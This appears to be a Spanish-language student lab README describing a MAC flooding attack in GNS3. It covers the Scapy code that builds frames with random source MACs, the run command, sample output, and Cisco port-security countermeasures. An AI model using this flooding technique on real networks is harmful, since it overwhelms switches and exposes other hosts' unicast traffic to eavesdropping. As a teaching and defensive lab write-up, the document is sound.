

<div align="center">

# 🌊 MAC Flooding Attack

**Luiggy Habraham Encarnación Cabrera · Matrícula 2025-0663**


> Saturación de la tabla CAM del switch con MACs aleatorias para forzar el modo fail-open y exponer el tráfico unicast a todos los puertos del segmento.

</div>

---

## ⚠️ Aviso Legal

> [!CAUTION]
> Este repositorio tiene fines **exclusivamente académicos y educativos**.
> Todo el contenido fue ejecutado en un entorno de laboratorio virtualizado y controlado.
> La reproducción de estas técnicas en redes sin autorización expresa es **ilegal**.

---

## 📑 Tabla de Contenido

1. [Objetivo del Laboratorio](#-objetivo-del-laboratorio)
2. [Objetivo del Script](#-objetivo-del-script)
3. [Requisitos](#requisitos-para-utilizar-la-herramienta)
4. [Instalación](#️-instalación)
5. [Documentación de la Red](#️-documentación-de-la-red)
6. [Funcionamiento del Script](#-funcionamiento-del-script)
7. [Uso y Ejecución](#-uso-y-ejecución)
8. [Contramedidas](#-contramedidas)
9. [Capturas de Pantalla](#-capturas-de-pantalla)
10. [Video de Demostración](#-video-de-demostración)

---

## 🎯 Objetivo del Laboratorio

Demostrar cómo un atacante puede saturar la tabla CAM (*Content Addressable Memory*) de un switch enviando masivamente tramas Ethernet con MACs de origen aleatorias. Cuando la tabla CAM se llena, el switch entra en modo *fail-open* y comienza a reenviar las tramas unicast desconocidas por todos sus puertos, comportándose como un hub y exponiendo el tráfico de todos los hosts del segmento.

---

## 🧩 Objetivo del Script

El script `mac_flooding.py` genera y envía en lotes continuos tramas Ethernet con MACs de origen/destino, IPs y puertos UDP completamente aleatorios. Cada MAC de origen única fuerza al switch a crear una nueva entrada en su tabla CAM. Una vez superada la capacidad máxima, el switch no puede asociar MACs conocidas a puertos específicos y reenvía todo el tráfico por flooding.

### Parámetros Usados

| Parámetro | Tipo | Descripción | Valor |
|---|---|---|---|
| Interfaz de red | Interactivo | Interfaz desde la que se lanza el ataque | `e0` |
| `BATCH_SIZE` | Constante en código | Tramas enviadas por ciclo con `sendp()` | `50` |
| MAC origen | Automático | Generada aleatoriamente por paquete | 6 bytes aleatorios |
| MAC destino | Automático | Generada aleatoriamente por paquete | 6 bytes aleatorios |

### Requisitos para Utilizar la Herramienta

| Requisito | Detalle |
|---|---|
| Sistema operativo | Kali Linux 2023+ (o cualquier Linux) |
| Python | 3.10 o superior |
| Librería Scapy | `scapy >= 2.5.0` |
| Privilegios | `sudo` o `root` obligatorio |
| Conectividad | Capa 2 activa con el switch objetivo |

---

## ⚙️ Instalación

```bash
# 1. Clonar el repositorio
git clone https://github.com/luiggyencarnacion/MAC-Flooding-Attack.git
cd MAC-Flooding-Attack

# 2. Crear entorno virtual
python3 -m venv venv
source venv/bin/activate

# 3. Instalar dependencias
pip install -r requirements.txt

# 4. Verificar
python3 -c "from scapy.all import Ether, IP, UDP; print('Scapy OK')"
```

**`requirements.txt`**
```
scapy>=2.5.0
```

---

## 🗺️ Documentación de la Red

### Topología

```
                    ┌─────────┐
                    │   R-1   │  10.6.63.1/24
                    └────┬────┘
                         │ Gig0/0
                         │ Gig0/0
                    ┌────┴────┐
                    │  SW-1   │  ← Objetivo: tabla CAM
                    └──┬───┬──┘     
               Gig0/2  │   │  Gig0/1
              ┌────────┘   └───────────┐
         ┌────┴────────┐          ┌────┴───────┐
         │ KaliLinux-1 │          │    PC1     │
         │  Atacante   │          │  Víctima   │
         │ 10.6.63.13  │          │ 10.6.63.50 │
         └─────────────┘          └────────────┘
               e0                      e0

  Tras saturación:
  SW-1 (fail-open) → reenvía tráfico PC1↔R-1 por TODOS los puertos
  KaliLinux-1 (Wireshark) → captura tráfico de PC1 sin ser el destino
```



### Tabla de Direccionamiento

| Dispositivo | Interfaz | Dirección IP | Máscara | Rol |
|---|---|---|---|---|
| R-1 | g0/0 | 10.6.63.1 | /24 | Gateway |
| SW-1 | Gig0/0 | — | — | Switch objetivo (tabla CAM) |
| SW-1 | Gig0/1 | — | — | Enlace hacia PC1 |
| SW-1 | Gig0/2 | — | — | Enlace hacia KaliLinux-1 |
| KaliLinux-1 | e0 | 10.6.63.13 | /24 | Atacante / Sniffer pasivo |
| PC1 | e0 | 10.6.63.50 | /24 | Víctima (tráfico expuesto) |

### Detalles del Entorno

| Parámetro | Valor |
|---|---|
| Red | 10.6.63.0/24 |
| Emulador | GNS3 |
| Plataforma atacante | Kali Linux |
| Dispositivos Cisco | IOU (IOS on Unix) |
| VLANs | VLAN 1 (default) |

---

## 🔬 Funcionamiento del Script

### Flujo General

```
Inicio
  └── Selección interactiva de interfaz
        └── Bucle infinito:
              └── Construir lote de 50 tramas aleatorias:
                    ├── Ether(src=random_mac(), dst=random_mac())
                    ├── IP(src=random_ip(), dst=random_ip())
                    └── UDP(sport=random, dport=random)
              └── sendp(lote, iface, inter=0, verbose=False)
              └── stats["count"] += 50
              └── Cada 500 pkt → imprimir progreso
  └── SIGINT → print_summary() → sys.exit()
```

### Construcción del Paquete

```python
Ether(src=random_mac(), dst=random_mac())
/ IP(
    src=f"{r()}.{r()}.{r()}.{r()}",
    dst=f"{r()}.{r()}.{r()}.{r()}"
)
/ UDP(
    sport=random.randint(1024, 65535),
    dport=random.randint(1024, 65535)
)
```

Cada MAC de origen única → el switch crea una entrada en su tabla CAM mapeando esa MAC al puerto de entrada (Gig0/2). Al superarse la capacidad, las nuevas MACs no pueden ser aprendidas y el tráfico unicast desconocido se reenvía por flooding.

### Salida en Tiempo Real

```
  Tiempo   Progreso
  ──────────────────────────────────────────
  00:01         500 pkt enviados
  00:02       1,000 pkt enviados
  00:04       2,000 pkt enviados
  00:06       3,000 pkt enviados
```

### Resumen Final

```
  ╔════════════════════════════════════════╗
  ║            Resumen Final               ║
  ╚════════════════════════════════════════╝
  Paquetes enviados : 12,050
  Rate promedio     : 2,008 pkt/s
  Tiempo activo     : 00:06
```

---

## 🚀 Uso y Ejecución

```bash
sudo python3 mac_flooding_attack.py
```

**Interacción esperada:**

```
  Interfaces de red disponibles:
    [1] lo
    [2] e0

  Seleccione interfaz (número o nombre): 2

  ╔════════════════════════════════════════╗
  ║          MAC Flooding Attack           ║
  ╚════════════════════════════════════════╝
  Interfaz  : e0
  Batch     : 50 pkt/envío
  [*] Llenando CAM Table del switch...
  [*] Generando MACs aleatorias...
```

**Verificación del impacto en el switch:**

```
SW-1# show mac address-table count
SW-1# show logging
SW-1# clear mac address-table dynamic
```

---

## 🔐 Contramedidas

### Port-Security con Sticky MAC y Acción Shutdown

```
SW-1(config)# interface GigabitEthernet0/2
SW-1(config-if)# switchport mode access
SW-1(config-if)# switchport port-security
SW-1(config-if)# switchport port-security maximum 5
SW-1(config-if)# switchport port-security violation shutdown
SW-1(config-if)# switchport port-security mac-address sticky
SW-1(config-if)# exit
```

Con `maximum 5` el switch solo acepta 5 MACs distintas en ese puerto. Al detectar la sexta MAC, el puerto pasa a `err-disabled` automáticamente, bloqueando el ataque.

### Verificación

```
SW-1# show port-security interface GigabitEthernet0/2
SW-1# show mac address-table count
SW-1# show logging
```

### Recuperación del Puerto err-disabled

```
SW-1(config)# interface GigabitEthernet0/2
SW-1(config-if)# shutdown
SW-1(config-if)# no shutdown
```

### Tabla Resumen

| Contramedida | Efectividad | Impacto operacional |
|---|---|---|
| Port-security (shutdown) | Muy alta | Bajo |
| Port-security (restrict) | Alta | Bajo |
| VLAN segmentation | Media | Medio |

---

## 📸 Capturas de Pantalla

```
evidencias/
├── 01_topologia_gns3.png
├── 02_ataque_en_ejecucion.png
├── 03_cam_table_saturada.png
├── 04_trafico_expuesto_wireshark.png
├── 05_port_security_aplicado.png
└── 06_puerto_err_disabled.png
```

---

## 🎬 Video de Demostración

> 📺 **[Ver demostración en YouTube →](https://youtu.be/CuJQ9trv9tU?si=_qTKX-Mb8tjr4jKj)**

---

<div align="center">

*Documento elaborado con fines académicos en un entorno de laboratorio controlado.*
*El uso de estas técnicas fuera de entornos autorizados es ilegal.*

</div>
